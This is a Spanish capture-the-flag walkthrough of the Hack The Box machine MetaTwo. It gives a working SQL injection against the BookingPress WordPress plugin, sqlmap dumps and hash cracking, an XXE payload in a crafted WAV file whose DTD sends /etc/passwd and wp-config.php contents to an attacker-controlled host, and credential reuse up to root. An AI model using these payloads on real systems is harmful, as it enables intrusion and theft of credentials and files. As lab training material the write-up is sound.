 10.10.11.186 - MetaTwo
----------------------

Puertos abiertos -> 21, 22, 80
```console
└─$ whatweb http://10.10.11.186             
http://10.10.11.186 [302 Found] HTTPServer[nginx/1.18.0], IP[10.10.11.186], RedirectLocation[http://metapress.htb/], Title[302 Found], nginx[1.18.0]
ERROR Opening: http://metapress.htb/ - no address for metapress.htb
```
Añadimos al /etc/hosts el dominio y repetimos el escaneo.
```console
└─$ whatweb http://metapress.htb
Cookies[PHPSESSID], HTTPServer[nginx/1.18.0], MetaGenerator[WordPress 5.6.2], PHP[8.0.24], 

└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 'http://metapress.htb/FUZZ.php'
000000001:   301        0 L      0 W        0 Ch        "index"
000000463:   200        96 L     429 W      6931 Ch     "wp-login"
000017037:   405        0 L      6 W        42 Ch       "xmlrpc"
000046014:   302        0 L      0 W        0 Ch        "wp-signup" 

└─$ wfuzz -t 200 --hc=404,301 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 'http://metapress.htb/FUZZ/'
000000041:   302        0 L      0 W        0 Ch        "login"
000000050:   200        1033 L   3343 W     74090 Ch    "events"
000000112:   200        155 L    552 W      10342 Ch    "0"
000000114:   200        50 L     114 W      1763 Ch     "feed"
000000229:   200        0 L      0 W        0 Ch        "wp-content"
000000247:   302        0 L      0 W        0 Ch        "admin"
000000774:   403        7 L      9 W        153 Ch      "wp-includes"
000001107:   200        153 L    534 W      10326 Ch    "about-us"
000001143:   200        1033 L   3343 W     74090 Ch    "Events"
```
Nos encontramos los clasicos directorios de un wordpress.


La web es esta:

Hay abajo un panel de busqueda que tramita una petición tal que así: 
```/GET http://metapress.htb/?s=test```

De hacer fuzzing a las paginas ```http://metapress.htb/?s=FUZZ``` pero consigo siempe las mimas cuatro que no
tienen nada interesante

Si hago fuzzing por el wp-content ```http://metapress.htb/wp-content/FUZZ/```
Sale lo tipico, /about /events /feed /themes /plugins y /uploads que devuelve un 403 forbiden.

La pagina de events tramita una peticion POST a http://metapress.htb/wp-admin/admin-ajax.php con un montón de 
datos. En el codigo fuente de /events si buscamos por urls obtenemos:
```
└─$ curl -s http://metapress.htb/events/ | grep -oE '"http://(.*?)"'
# .../wp-content/plugins/bookingpress-appointment-booking/images/data-grid-empty-view-vector.webp
```

Buscando como explotar esto di [con](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357)

Extraer el "nonce"
```console
└─$ curl -s http://metapress.htb/events/ | grep "nonce"
ar postData = { action:'bookingpress_generate_spam_captcha', _wpnonce:'4d058944b8' };

└─$ curl -s 'http://metapress.htb/wp-admin/admin-ajax.php' \
-d $'action=bookingpress_front_get_category_services&_wpnonce=4d058944b8&category_id=33&total_service=1) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -' | jq
# informacion de version y demas
```

```console
└─$ sqlmap -u 'http://metapress.htb/wp-admin/admin-ajax.php' --method POST --data  'action=bookingpress_front_get_category_services&_wpnonce=4d058944b8&category_id=33&total_service=1' -p total_service --dbs
[*] blog
[*] information_schema

└─$ sqlmap -u 'http://metapress.htb/wp-admin/admin-ajax.php' --method POST --data  'action=bookingpress_front_get_category_services&_wpnonce=4d058944b8&category_id=33&total_service=1' -p total_service -D blog --tables
# wp-users

└─$ sqlmap -u 'http://metapress.htb/wp-admin/admin-ajax.php' --method POST --data  'action=bookingpress_front_get_category_services&_wpnonce=4d058944b8&category_id=33&total_service=1' -p total_service -D blog -T wp_users --dump
# admin -> $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
# manager -> $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70

└─$ john -w=/usr/share/wordlists/rockyou.txt hashes
partylikearockstar (?) # manager
```
Solo podemos crackear la de manager con el jhon ```john -w=/usr/share/wordlists/rockyou.txt hashes```
Y nos da "partylikearockstar". Entramos a wp-admin (wp-login.php) con esas creds manager:partylikearockstar

Hay una seccion apra subir archivos (media), buscando ```wordpress media upload vulnerability``` doy con eñ
"WordPress XXE Vulnerability in Media Library – CVE-2021-29447"

```console
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.83/wtf.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav

# wtf.dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.83/?p=%file;'>" >
```
El unico usuario que sacamos es "jnelson"
Como el sitio es un nginx antes de probar otras rutas pillamos el "/etc/nginx/sites-enabled/default" 
simplemente cambiando la ruta en "wtf.dtd"

Pone "root /var/www/metapress.htb/blog;" es decir el wordpress esta en esa ruta.
Ahora a "/var/www/metapress.htb/blog/wp-config.php" Y obtenemos:

MySQL -> database blog -> blog:635Aq@TdqrCwXFUZ
FTP -> ftpext metapress.htb:9NYS_ii@FyL_p5M2NvJ

```console
└─$ ftp metapress.htb
Name (metapress.htb:cucuxii): metapress.htb
Password: 9NYS_ii@FyL_p5M2NvJ
ftp> dir
drwxr-xr-x   5 metapress.htb metapress.htb     4096 Oct  5 14:12 blog
drwxr-xr-x   3 metapress.htb metapress.htb     4096 Oct  5 14:12 mailer
ftp> dir blog
# Todo el wordpress
ftp> cd mailer
ftp> dir
drwxr-xr-x   4 metapress.htb metapress.htb     4096 Oct  5 14:12 PHPMailer
-rw-r--r--   1 metapress.htb metapress.htb     1126 Jun 22  2022 send_email.php
ftp> get send_email.php
```

Ahi encontramos las creds de jnelson "jnelson@metapress.htb:Cb4_JmWM8zUZWMu@Ys"
Podemos entrar con ssh ```sshpass -p 'Cb4_JmWM8zUZWMu@Ys' ssh jnelson@metapress.htb```

Si enumeramos el sistema encontramos que:
- Archivos de jnelson -> en su carpeta /home hay muchos ".passpie" con posibles contraseñas

Dentro de passpie:
```console
jnelson@meta2:~/.passpie$ ls -la
-r-xr-x--- 1 jnelson jnelson    3 Jun 26  2022 .config
-r-xr-x--- 1 jnelson jnelson 5243 Jun 26  2022 .keys # dos claves: privada y publica
dr-xr-x--- 2 jnelson jnelson 4096 Oct 25 12:52 ssh # carpeta con password de root convertida en un pgp
```

Copio la clave privada del archivo ".keys" en private.key
```console
└─$ gpg2john private.key > hash
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
# blink182         (Passpie)

```console
jnelson@meta2:~$ touch pass
jnelson@meta2:~$ passpie export pass
Passphrase: blink182 
jnelson@meta2:~$ cat pass
# root: 'p7qfAZt4_A1xo_0x'
jnelson@meta2:~$ su root
Password:  p7qfAZt4_A1xo_0x
```

